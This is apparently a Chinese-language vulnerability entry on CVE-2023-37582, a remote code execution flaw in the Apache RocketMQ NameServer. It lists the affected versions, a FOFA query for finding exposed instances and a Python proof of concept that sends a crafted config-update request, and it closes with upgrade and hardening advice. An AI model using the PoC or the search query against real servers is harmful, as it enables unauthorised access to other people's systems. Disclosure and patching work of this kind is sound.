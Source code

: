 # Apache RocketMQ 远程代码执行漏洞 CVE-2023-37582

## 漏洞描述

此漏洞是由于 CVE-2023-33246 补丁未修复完全，当 RocketMQ 的NameServer 组件暴露在外网，且缺乏有效的身份认证时，攻击者可以利用更新配置功能，以 RocketMQ 运行的系统用户身份执行任意命令。

## 漏洞影响

```
RocketMQ < 4.9.7
RocketMQ < 5.1.2
```

## FOFA

```
title="RocketMQ"
```

## 漏洞复现

poc：

```
import socket
import binascii
 
client = socket.socket()
client.settimeout(5)
 
client.connect((target_ip,target_port))
## make payload
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
 
body=('Thanks DawnT0wn').encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
## send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
```

## 漏洞修复

目前官方已发布安全版本，建议受影响用户升级至：

- RocketMQ 5.x >= 5.1.2
- RocketMQ 4.x >= 4.9.7

官方补丁下载地址：https://rocketmq.apache.org/download/，同时建议将 NameServer、Broker 等组件部署在内网，并增加权限认证。